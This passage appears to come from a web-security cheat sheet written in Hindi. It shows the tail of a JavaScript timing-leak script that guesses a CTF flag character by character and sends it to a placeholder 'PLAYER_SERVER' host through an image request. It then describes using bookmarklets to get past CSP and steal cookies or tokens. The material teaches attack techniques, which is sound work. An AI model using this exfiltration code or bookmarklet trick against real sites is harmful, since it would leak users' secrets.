 ```html
f.location = (end ? gen2(word) : gen(word));
await new Promise(r => {
g.onload = r;
});
let diff = performance.now() - h;
return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
let prefix = 'nn9ed{';
while (true) {
let i = 0;
for (i;i<alphabet.length;i++) {
let c = alphabet[i];
let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
console.log(prefix, c, t);
if (t) {
console.log('FOUND!')
prefix += c;
break;
}
}
if (i==alphabet.length) {
console.log('missing chars');
break;
}
let t = await query(prefix+'}', true);
if (t) {
prefix += '}';
break;
}
}
new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
console.log(prefix);
}

run();
</script>
```
### Via Bookmarklets

यह हमला कुछ सामाजिक इंजीनियरिंग को शामिल करेगा जहाँ हमलावर **उपयोगकर्ता को ब्राउज़र के बुकमार्कलेट पर एक लिंक खींचने और छोड़ने के लिए मनाता है**। यह बुकमार्कलेट **दुष्ट जावास्क्रिप्ट** कोड को शामिल करेगा जो खींचने और छोड़ने या क्लिक करने पर वर्तमान वेब विंडो के संदर्भ में निष्पादित होगा, **CSP को बायपास करते हुए और संवेदनशील जानकारी** जैसे कुकीज़ या टोकन चुराने की अनुमति देगा।

अधिक जानकारी के लिए [**यहाँ मूल रिपोर्ट देखें**](https://socradar.io/csp-bypass-unveiled-the-hidden-threat-of-bookmarklets/)।

